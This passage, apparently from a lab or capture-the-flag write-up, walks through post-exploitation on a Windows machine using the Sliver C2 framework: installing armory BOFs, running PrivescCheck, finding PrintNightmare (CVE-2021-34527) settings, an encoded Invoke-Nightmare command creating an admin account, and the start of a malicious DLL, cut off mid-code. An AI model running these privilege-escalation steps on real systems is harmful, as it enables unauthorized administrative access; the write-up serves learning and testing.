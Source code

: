 ![](https://photos.squarezero.dev/file/abir-images/puppet/1.png)

To ensure operational security (OpSec), I installed default Beacon Object Files (BOFs), including TrustedSec's situational awareness BOFs.
```Bash
#Install Situational Awareness
sliver (puppet-mtls) > armory install situational-awareness

#Install All of the Armory
sliver (puppet-mtls) > armory install all
```

## Exploiting PrintNightmare
After basic recon yielded little of value, I uploaded and executed the [PrivescCheck](https://github.com/itm4n/PrivescCheck) PowerShell script, which revealed the machine was vulnerable to PrintNightmare (CVE-2021-34527). 
```Bash
sliver (puppet-mtls) > upload PrivescCheck.ps1
sliver (puppet-mtls) > sharpsh -t 300 -- -c invoke-privesccheck --uri c:\\windows\\tasks\\PrivescCheck.ps1

Policy      : Limits print driver installation to Administrators
Key         : HKLM\SOFTWARE\Policies\Microsoft\Windows NT\Printers\PointAndPrint
Value       : RestrictDriverInstallationToAdministrators
Data        : 0
Default     : 1
Expected    : <null|1>
Description : Installing printer drivers does not require administrator privileges.

Policy      : Point and Print Restrictions > NoWarningNoElevationOnInstall
Key         : HKLM\SOFTWARE\Policies\Microsoft\WindowsNT\Printers\PointAndPrint    
Value       : NoWarningNoElevationOnInstall
Data        : 1
Default     : 0
Expected    : <null|0>
Description : Do not show warning or elevation prompt. Note: this setting reintroduces the PrintNightmare LPE
              vulnerability, even if the settings 'InForest' and/or 'TrustedServers' are configured.
```


To exploit PrintNightmare, I used a base64-encoded payload to create an admin user using PowerShell, encoded via [cyberchef](https://gchq.github.io/CyberChef/#recipe=Encode_text('UTF-16LE%20(1200)')To_Base64('A-Za-z0-9%2B/%3D')&input=SW52b2tlLU5pZ2h0bWFyZSAtRHJpdmVyTmFtZSAiU3F1YXJlWmVybyIgLU5ld1VzZXIgImpvaG5zbWl0aCIgLU5ld1Bhc3N3b3JkICJQYXNzd29yZDEyMyEi).

```Bash
sliver (puppet-mtls) > sharpsh -i -s -t 300 -- --uri c:\\windows\\tasks\\CVE-2021-34527.ps1 -e -c  SQBuAHYAbwBrAGUA...........
```

we can prepared a DLL with DllMain executing commands to create and elevate the user:
```C#
#include <stdlib.h>
#include <windows.h>

BOOL APIENTRY DllMain(
HANDLE hModule,// Handle to DLL module
DWORD ul_reason_for_call,// Reason for calling function
LPVOID lpReserved ) // Reserved
{
    switch ( ul_reason_for_call )
    {
        case DLL_PROCESS_ATTACH: // A process is loading the DLL.
        int i;
```